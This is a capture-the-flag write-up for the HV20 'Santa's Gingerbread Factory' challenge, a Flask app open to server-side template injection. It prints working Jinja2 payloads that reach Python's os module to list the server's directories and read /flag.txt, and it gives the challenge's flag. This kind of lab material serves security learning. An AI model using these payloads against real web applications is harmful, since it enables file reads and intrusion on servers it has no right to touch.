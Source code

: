 [← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)


# Day 09 / HV20.09 Santa's Gingerbread Factory



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   `#penetration-testing` `#web-security`
* Level:  Medium


### Introduction

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the `RESOURCES` section on top.


### Goal / Mission

Besides the gingerbread men, there are other goodies there. Let's see if you
can get the goodie, which is stored in /flag.txt.



## Solution

The website is a [Flask] web application and the topic is [Flask injection].

[Flask]: https://en.wikipedia.org/wiki/Flask_(web_framework)
[Flask injection]: https://blog.nvisium.com/injecting-flask

Starting with a simple injection like `{{ 4 * 4 }}` – which evaluates to `16` –
after a lot of trial and error one of many solutions can be discovered …

1. A file listing injection:
   
   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').listdir('.')}}
   ```

   ```
   The ginger bread man says: 
    -------------------------------
   ( Hello, mighty ['bin', 'boot', )
   ( 'dev', 'etc', 'home', 'lib',  )
   ( 'lib64', 'media', 'mnt',      )
   ( 'opt', 'proc', 'root', 'run', )
   ( 'sbin', 'srv', 'sys', 'tmp',  )
   ( 'usr', 'var', '.dockerenv',   )
   ( 'flag.txt']                   )
    -------------------------------
   ```

2. An injection to extract the flag:

   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__['open'](''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').path.join('.','flag.txt')).read()}}
   ```

   ```
   The ginger bread man says:
    --------------------------------
   ( Hello, mighty HV20{SST1_N0t_0N )
   ( LY_H1Ts_UB3R!!!}               )
    --------------------------------
   ```

--------------------------------------------------------------------------------

Flag: `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

[← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)

